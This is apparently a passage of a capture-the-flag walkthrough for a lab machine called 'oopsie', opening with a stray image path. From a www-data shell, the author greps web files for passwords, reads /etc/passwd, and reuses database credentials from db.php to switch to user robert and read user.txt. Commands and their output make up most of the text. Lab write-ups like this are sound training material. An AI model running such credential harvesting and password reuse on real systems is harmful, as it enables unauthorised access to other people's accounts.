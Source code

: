 seems to be a password.php in dir

search all files for passw
```bash
cat * | grep -i passw*
```

output
```
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />

```

look at /etc/host to see if password is reused

```bash
cat /etc/passwd
```

found admin user

```
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

attempted to login in as robert using found password

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: MEGACORP_4dm1n!!

su: Authentication failure

```

Failed to loggin

continue to explore .php files. View db.php

```bash
cat db.php
```

Results

```
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Attempt to login with robert with new password M3g4C0rpUs3r!

```
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ cd /home/  
cd /home/
robert@oopsie:/home$ ls
ls
robert
robert@oopsie:/home$ cd robert
cd robert
robert@oopsie:~$ ls
ls
user.txt
robert@oopsie:~$ cat user.txt
cat user.txt
```